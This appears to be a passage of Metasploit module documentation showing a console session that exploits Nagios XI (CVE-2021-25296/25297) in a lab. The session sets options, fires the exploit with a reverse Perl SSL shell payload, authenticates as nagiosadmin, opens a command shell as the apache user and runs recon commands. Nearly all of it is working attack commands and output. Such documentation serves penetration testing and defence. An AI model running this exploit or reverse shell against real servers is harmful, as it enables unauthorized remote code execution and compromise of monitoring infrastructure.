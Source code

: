 ```
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly
                                              generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   TARGET_CVE      CVE-2021-25296   yes       CVE to exploit (CVE-2021-25296, CVE-2021-25297, or CVE
                                              -2021-25298)
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      no        Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl_ssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.153.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   CMD



View the full module info with the info, or info -d command.

msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set TARGET_CVE CVE-2021-25297
TARGET_CVE => CVE-2021-25297
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > exploit

[*] Started reverse SSL handler on 192.168.153.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.7.5.
[+] The target appears to be vulnerable.
[*] Sending the payload...
[*] Command shell session 1 opened (192.168.153.128:4444 -> 192.168.153.132:56322) at 2023-02-07 11:44:00 -0600

id
uid=48(apache) gid=48(apache) groups=48(apache),1000(nagios),1001(nagcmd)
whoami
apache
uname -a
Linux localhost.localdomain 3.10.0-1160.2.2.el7.x86_64 #1 SMP Tue Oct 20 16:53:08 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
